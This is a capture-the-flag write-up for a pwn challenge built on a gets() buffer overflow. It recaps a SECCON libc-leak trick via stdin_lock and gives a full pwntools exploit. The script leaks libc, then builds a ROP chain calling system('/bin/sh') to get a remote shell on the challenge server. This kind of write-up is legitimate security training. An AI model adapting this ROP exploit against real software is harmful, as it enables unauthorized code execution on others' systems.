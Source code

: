 # u get me write

```
Surely one gets call wont get me fired right?
nc challenge.secso.cc 8004 
```

Solved by @Rosayxy.

This source code is surprisingly simple. 

```py
int __fastcall main(int argc, const char **argv, const char **envp)
{
  printf("Hello! %s\n", "Pleasure to meet you! Please enter your name: ");
  return gets();
}
```

this reminds me of something I've seen in seccon quals last year. As is posted in [my previous writeup](https://rosayxy.github.io/seccon-reflections/)

## Recap

In the `make ROP great again` challenge, the solution then is to use `gets` to cover the rdi to stdin_lock, and use some trick to read the leak the libc address which is written at the `stdin_lock + 8`

We use puts to print the address, then we reenter main and do a classic rop.

## This challenge

This challenge doesn't give the libc and linker, so we have to assume they are libc-2.39 (the trick above doesn't work in libc-2.35 sadly).

We can leak the libc address using the same trick, but when I try to do the `system("/bin/sh)` rop, it always crashes on remote.

I guess its the version of the libc-2.39 is not matching with the remote one. Therefore, to find out the remote version, I try to print the `version` string in the libc, which by my speculation will not be far from the local glibc2.39-0ubuntu8.1.

It turns out the version is `2.39-0ubuntu8.5`, so I download the libc, changed the address of `system`  and the gadgets and it works

## exp

```py
from pwn import *
context(log_level = "debug", arch = "amd64", os = "linux")
# p = process("./get-me-write")
p = remote("challenge.secso.cc", 8004)
libc = ELF("./libc.so.6")
gets_plt = 0x401060
puts_plt = 0x401050
main = 0x401156
p.recvuntil("Please enter your name: \n")
# gdb.attach(p)
# pause()
p.sendline(b"a"*0x28 + p64(0x040119B) +p64(gets_plt) + p64(gets_plt) + p64(puts_plt) + p64(main))
p.sendline(b"a"*8+p64(0))
sleep(0.1)
p.sendline("bbbb")
p.recvuntil("`aa")
libc_leak = u64(p.recv(6).ljust(8,b"\x00"))
print(hex(libc_leak))
libc_base = libc_leak + 0x28c0
system = libc_base + libc.sym["system"]
binsh = libc_base + next(libc.search(b"/bin/sh"))
pop_rdi = 0x10f75b + libc_base
print(hex(libc_base))
# gdb.attach(p)
# pause()
p.recvuntil("Please enter your name: \n")
p.sendline(b"a"*0x28 + p64(pop_rdi) + p64(binsh)+ p64(system))
p.interactive()
```

## comments

Personally, I think this challenge is NOT SO GREAT, because **IN THE ORIGINAL SECCON CHALLENGE, YOU NEED TO READ THE SOURCE CODE TO KNOW WHAT GETS IS DOING, AND HOW YOU CAN TRICK THE STDIN LOCK**. However, the libc version is not given here, so you might not know what to do if you didn't play seccon quals last year or didn't gooogle the `make ROP great again` challenge.
